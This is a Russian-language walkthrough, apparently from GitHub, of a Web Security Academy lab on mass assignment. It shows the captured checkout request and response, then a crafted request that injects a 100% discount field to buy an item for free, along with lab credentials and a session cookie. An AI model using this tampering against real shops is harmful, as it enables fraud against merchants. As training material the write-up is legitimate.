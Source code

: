 Чтобы решить лабораторную работу, найдите и используйте уязвимость массового назначения, чтобы купить **легкую кожаную куртку l33t** . Вы можете войти в свою учетную запись, используя следующие учетные данные: `wiener:peter`.

## Дано 

уязвимость массового назначения, в покупке товара
учетные данные: `wiener:peter`

## Задача

купить **легкую кожаную куртку l33t** 


# Решение

При покупки нашли метод GET
```
GET /api/checkout HTTP/2
Host: 0a3a006c036f7f4483e4bed600fe00d3.web-security-academy.net
Cookie: session=MlPzpBVFngrS6RRWhan6mpErZLU3ANHK
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a006c036f7f4483e4bed600fe00d3.web-security-academy.net/cart
Content-Type: text/plain;charset=UTF-8
Content-Length: 53
Origin: https://0a3a006c036f7f4483e4bed600fe00d3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

{"chosen_products":[{"product_id":"1","quantity":2}]}
```
От сервера получили ответ
```
{
	"chosen_discount":{
		"percentage":0
	},
	"chosen_products":[
		{
			"product_id":"1",
			"name":"Lightweight \"l33t\" Leather Jacket",
			"quantity":2,
			"item_price":133700
		}
	]
}
```
- Видим до ключи chosen_discount item_price ...

Формируем полный запрос
```
GET /api/checkout HTTP/2
Host: 0a3a006c036f7f4483e4bed600fe00d3.web-security-academy.net
Cookie: session=MlPzpBVFngrS6RRWhan6mpErZLU3ANHK
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a006c036f7f4483e4bed600fe00d3.web-security-academy.net/cart
Content-Type: text/plain;charset=UTF-8
Content-Length: 53
Origin: https://0a3a006c036f7f4483e4bed600fe00d3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

{
	"chosen_discount":{
		"percentage":100
	},
	"chosen_products":[
		{
			"product_id":"1",
			"name":"Lightweight \"l33t\" Leather Jacket",
			"quantity":2,
			"item_price":133700
		}
	]
}
```

- Скидка 100%